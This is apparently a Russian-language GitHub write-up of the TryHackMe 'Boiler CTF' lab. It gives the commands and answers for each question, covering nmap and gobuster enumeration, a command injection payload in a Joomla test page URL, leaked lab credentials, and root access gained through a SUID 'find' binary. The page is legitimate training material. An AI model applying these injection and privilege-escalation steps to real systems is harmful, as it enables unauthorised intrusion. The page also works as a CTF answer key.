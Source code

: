 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Boiler CTF](https://tryhackme.com/r/room/boilerctf2) 

Всего 2 задания:
## Задание 1
Средний уровень CTF. Просто перечислите, и вы попадете туда.

### Ответьте на вопросы ниже
Расширение файла после анонимного входа
```commandline
nmap -sC -sV <IP>
ftp <IP>
ls -la
get .info.txt
file .info.txt 
cat .info.txt 
```
```commandline
txt
```
Что находится на самом высоком порту?
```commandline
ssh
```
Что работает на порту 10000?
```commandline
 http://<IP>:10000/
```
```commandline
webmin
```
Можете ли вы использовать службу, работающую на этом порту? (ответ «да/нет»)
```commandline
nay
```
К какой CMS вы можете получить доступ?
```commandline
gobuster dir -u http://<IP> -w /data/src/wordlists/directory-list-2.3-medium.txt 
```
```commandline
joomla
```
Продолжайте перечислять, и вы поймете, когда найдете.
```commandline
gobuster dir -u http://<IP>/joomla/ -w /data/src/wordlists/directory-list-2.3-medium.txt 
```
```commandline
Ответ не нужен
```
Интересное название файла в папке?
```commandline
http://<IP>/joomla/_test/index.php&plot=;ls -l
http://<IP>/joomla/_test/index.php&plot=;cat log.txt

username: basterd
password: superduperp@$$
```
```commandline
log.txt
```

## Задание 2
Вы можете выполнить это вручную, но делайте это по своему усмотрению.

### Ответьте на вопросы ниже
Где хранились пароли других пользователей (без расширения, только имя)?
```commandline
ssh basterd@<IP>
/bin/bash 
sudo -l
cd basterd/
ls -la
cat backup.sh
stoner : superduperp@$$no1knows
```
```commandline
backup
```
пользователь.txt
```commandline
su - stoner
whoami
ls -la
cat .secret
```
```commandline
You made it till here, well done.
```
Что вы использовали, чтобы получить статус привилегированного пользователя?
```commandline
sudo -l
find / -user root -perm -4000 -executable -type f 2>/dev/null
```
```commandline
find
```
корень.txt
```commandline
find /root -exec ls /root \;
find /root -exec cat /root/root.txt \;
```
```commandline
It wasn't that hard, was it?
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)